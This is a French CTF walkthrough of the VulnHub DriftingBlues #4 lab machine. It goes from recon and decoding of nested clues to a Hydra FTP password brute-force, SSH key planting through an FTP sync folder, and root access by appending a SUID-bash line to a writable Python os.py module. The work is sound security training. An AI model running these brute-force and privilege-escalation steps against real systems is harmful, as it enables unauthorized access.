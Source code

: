 # Solution du CTF DriftingBlues #4 de VulnHub

Quatrième Dimension
-------------------

[Ce CTF](https://www.vulnhub.com/entry/driftingblues-4,661/), 4ème du nom est un boot2root décrit comme facile. Il a été créé par [tasiyanci](https://twitter.com/tasiyanci).  

```plain
Nmap scan report for 192.168.56.9 
Host is up (0.00028s latency). 
Not shown: 65532 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     ProFTPD 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-title: Site doesn't have a title (text/html). 
|_http-server-header: Apache/2.4.38 (Debian)
```

Le serveur ProFTPD ne fournit pas sa version et ne supporte pas les connexions anonymes. On verra si on peut l'utiliser plus tard.  

Sur la page web on peut lire *Under Construction, please stand by* mais en commentaire dans la source HTML se trouve un base 64. Le résultat contient lui même du base64. Pour réduire je met les différents résultats obtenus :  

```plain
go back intruder!!! dGlnaHQgc2VjdXJpdHkgZHJpcHBpbiBhU0JvYjNCbElIbHZkU2R5WlNCaGJpQmxiWEJzYjNsbFpTQk1NbXgwV201V2FtRXliSFZhTWpGb1drTTFNR1ZJVVQwPQ==

tight security drippin aSBob3BlIHlvdSdyZSBhbiBlbXBsb3llZSBMMmx0Wm5WamEybHVaMjFoWkM1MGVIUT0=

i hope you're an employee L2ltZnVja2luZ21hZC50eHQ=

/imfuckingmad.txt
```

Le dernier path correspond à un fichier sur le serveur web qui semble contenir du code [BrainFuck](https://en.wikipedia.org/wiki/Brainfuck). Une nouvelle fois [dcode.fr](https://www.dcode.fr/brainfuck-language) dispose d'un interpréteur. L'output obtenu est le suivant :  

```plain
man we are a tech company and still getting hacked??? what the shit??? enough is enough!!! 
#
##
--- snip ---
##
#

/iTiS3Cr3TbiTCh.png
```

Ce path correspond à une image d'un code QR. J'ai trouvé [ce décodeur en ligne](https://blog.qr4.nl/Online-QR-Code-Decoder.aspx) qui m'a craché le texte <https://i.imgur.com/a4JjS76.png>.  

Passons sur le caractère risqué de laisser une partie d'un CTF aux mains d'un site dont la survie n'est pas assurée... L'image contient le texte suivant :  

```plain
drifting blues tech confidental

dear:

luther
******
gary
hubert
clark
******

please fix our website soon
```

Gimme a S, Gimme a H,...
------------------------

Armé de ces noms d'utilisateurs on se dit qu'on pourrait bruteforcer le service SSH, mais non d'après Hydra :  

```plain
[ERROR] target ssh://192.168.56.9:22/ does not support password authentication (method reply 4)
```

C'est là que FTP entre en jeu. Je récupère la [probable wordlist](https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords) *Top12Thousand-probable-v2.txt* et je l'utilise comme candidats de passwords pour THC-Hydra (il faut compter une bonne demi heure) :  

```plain
$ hydra -L users.txt -P Top12Thousand-probable-v2.txt ftp://192.168.56.9
--- snip ---
[21][ftp] host: 192.168.56.9   login: hubert   password: john316 
1 of 1 target successfully completed, 1 valid password found
```

Gotcha ! Une fois connecté sur le FTP je remarque un dossier *hubert* vide ainsi qu'un fichier *sync\_log* dont voici le contenu :  

```plain
sync completed at Thu 20 Jan 2022 07:06:01 AM CST
```

Si on attend un peu on remarque que la date indiquée est mise à jour.  

Le message indique qu'une synchronisation a lieu et comme le dossier correspond au nom d'utilisateur on peut imaginer que les fichiers que l'on pose seront copiés sous */home/hubert*.  

Ni une ni deux je crée un dossier .ssh puis je copie ma clé publique SSH sous le nom *authorized\_keys*. Ça fonctionne !  

```plain
$ ssh hubert@192.168.56.9 
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
hubert@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

```

This is not a test of the emergency broadcast system, this is a real thing!
---------------------------------------------------------------------------

Dans le dossier de l'utilisateur se trouve un fichier Python :  

```plain
-rwxr-xr-x 1 root root 217 Jan  9  2021 emergency.py
```

Son contenu :  

```python
#!/usr/bin/python 

import os 

os.system('echo 1 >> /tmp/backdoor_testing') 

# template python script for backdoor purposes 
# i'm gonna leave it with loose permissions 
#  
--- snip ---
# 
# say africa without a's
```

Il y a bien un fichier */tmp/backdoor\_testing* appartenant à root et son timestamp change régulièrement, preuve qu'une tache planifiée exécute le script Python.  

Pour que l'exploitation fonctionne il faudrait pouvoir modifier le module *os* de Python et ça tombe bien :  

```plain
hubert@driftingblues:~$ find /usr/ -writable 2> /dev/null  
/usr/lib/python2.7/os.py
```

J'ai seulement ajouté cette ligne à la fin du fichier :  

```python
system("cp /bin/bash /tmp/g0tr00t; chmod 4755 /tmp/g0tr00t")
```

Ça fait le job :  

```plain
hubert@driftingblues:~$ /tmp/g0tr00t -p 
g0tr00t-5.0# cd /root 
g0tr00t-5.0# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```

Sous le capot
-------------

```plain
g0tr00t-5.0# tail -3 /var/spool/cron/crontabs/root
SHELL=/bin/bash
* * * * * bash /root/sync
* * * * * python /home/hubert/emergency.py
g0tr00t-5.0# cat /root/sync
#!/bin/bash

omega=$(date)
#sleep 69
rm -rf /home/*/.local /home/*/.bashrc /home/*/.bash_history /home/*/.profie
cp -R /var/driftingblues_ftp/hubert /home/
echo "" > /home/hubert/.bash_history
echo "" > /home/hubert/.bashrc
chmod -R 700 /home/hubert
chown -R hubert:hubert /home/hubert
chown root:root /home/hubert/emergency.py
chmod 755 /home/hubert/emergency.py
echo "sync completed at $omega" > /var/driftingblues_ftp/sync_log
exit
```

That's it!

*Published January 20 2022 at 18:10*
